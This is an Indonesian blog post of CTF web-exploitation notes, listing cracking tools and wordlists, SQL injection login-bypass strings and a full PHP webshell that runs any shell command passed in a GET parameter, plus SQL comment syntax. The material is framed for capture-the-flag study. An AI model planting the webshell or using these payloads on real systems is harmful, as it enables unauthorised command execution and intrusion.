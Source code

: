 ```yaml
---
title: Semua Tentang CTF - Kategori Web Exploitation
published: true
tagged: ctf
---
```

# Tools dan File yang Umum Digunakan
Kategori Web Exploitation:
1. [JWT (JSON Web Token) - Cookie dengan JAuth](https://token.dev/){:target="_blank"}
2. [Deobfuscate - Kode JS yang Sulit Dibaca](https://deobfuscate.io/){:target="_blank"}
3. [John The Ripper - Brutefore JWT Signature Key](https://github.com/openwall/john-packages){:target="_blank"}
4. [Rockyou Wordlist - Kumpulan Kata untuk Bruteforce CTF](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt){:target="_blank"}

# Kode Penting
SQL Injection
```sql
' OR 1=1--
```

Modified SQL Injection (by me)
```sql
' OR 1=1 OR '1'='1
```
PHP Webshell (Execute Linux Command) dari [joswr1ght](https://gist.github.com/joswr1ght).

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

# Catatan Tambahan Untuk Belajar
## Comment Pada SQL
```sql
SELECT * FROM Customers -- WHERE City='Berlin';
```
```sql
/*Select all the columns
of all the records
in the Customers table:*/
SELECT * FROM Customers;
```
```sql
SELECT CustomerName, /*City,*/ Country FROM Customers;
```
## Username yang Umum Digunakan
```admin``` paling umum digunakan.